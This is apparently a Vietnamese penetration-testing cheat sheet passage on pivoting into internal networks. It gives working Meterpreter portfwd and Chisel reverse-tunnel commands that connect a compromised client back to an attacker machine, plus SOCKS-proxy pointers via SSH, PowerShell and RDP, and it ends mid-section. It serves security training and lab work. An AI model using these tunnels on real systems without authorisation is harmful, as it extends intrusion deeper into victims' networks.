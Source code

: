 - Khi có shell meterpreter bạn hoàn toàn có thể sử dụng để tạo tunnel dễ dàng. Không cần phải có thông tin đăng nhập giống SSH. Với SSH ta phải có một tài khoản đăng nhập hay private-key SSH của server thì mới có thể kết nối đến và tạo tunnel.
```bash
meterpreter > portfwd -h
Usage: portfwd [-h] [add | delete | list | flush] [args]
OPTIONS:
     -L >opt>  The local host to listen on (optional).
     -h        Help banner.
     -l >opt>  The local port to listen on.
     -p >opt>  The remote port to connect on.
     -r >opt>  The remote host to connect on.
meterpreter >
```
```bash
meterpreter > portfwd add –l 3389 –p 3389 –r 172.16.194.191
[*] Local TCP relay created: 0.0.0.0:3389 >-> 172.16.194.191:3389
meterpreter > 
```
-> Tạo một tunnel forward toàn bộ traffic đến port 3339 trên localhost tới 172.16.194.191 qua pivot là máy đang có shell meterpreter hiện tại.Nó cũng tương tự SSH local port forwarding vậy đó.
```bash
meterpreter > portfwd delete –l 3389 –p 3389 –r 172.16.194.191
[*] Successfully stopped TCP relay on 0.0.0.0:3389
meterpreter > 
```
-> Hủy một tunnel
- Liệt kê tất cả tunnel : `meterpreter > portfwd list`
- Xóa tất cả tunnel : `portfwd flush`
- Xem chi tiết hơn tại : https://www.offensive-security.com/metasploit-unleashed/portfwd/
#### Chisel
- A fast TCP/UDP tunnel over HTTP (https://github.com/jpillora/chisel)
- Sử dụng thông thường: Ví dụ Kali hoặc máy tấn công khác có IP là 10.10.15.13, máy client có IP là 10.10.10.10.
- Trên máy tấn công bắt đầu tạo chisel server lắng nghe trên port 8000: 
```bash
./chisel server -p 8000 --reverse
```
- Trên máy client:
| Command                                                  | Description                                                     |
| --------------------------------------------             | ---------------------------------------------------------       |
| chisel client 10.10.15.13:8000 R:80:127.0.0.1:80 R:389:localhost:389          | Listen on Kali 80,389, forward to localhost port 80,389 on client       |
| chisel client 10.10.15.13:8000 R:4444:10.10.10.214:80    | Listen on Kali 4444, forward to 10.10.10.214 port 80            |
| chisel client 10.10.15.13:8000 R:socks                   | Create SOCKS5 listener on 1080 on Kali, proxy through client    |
- Lưu ý là Chisel phải chạy cả trên server và client
#### Ssf
- https://github.com/securesocketfunneling/ssf
## Create SOCKS Proxy to Attack Internal Network
### Ssh
- [Dynamic Port Porwarding](#dynamic-port-forwarding)
- Cũng có thể tạo một SOCKS proxy là chính máy của bạn: `ssh user@localhost -CNfg -D 9000`
- [Sshuttle](#sshuttle)
### Powershell
- https://www.varonis.com/blog/nmap-reverse-proxies/
- https://tokyoneon.github.io/
- https://github.com/tokyoneon/Invoke-SocksProxy
### RDP
1. **Client**: Register the `UDVC-Plugin.dll` on the system (https://github.com/earthquake/UniversalDVC#installation)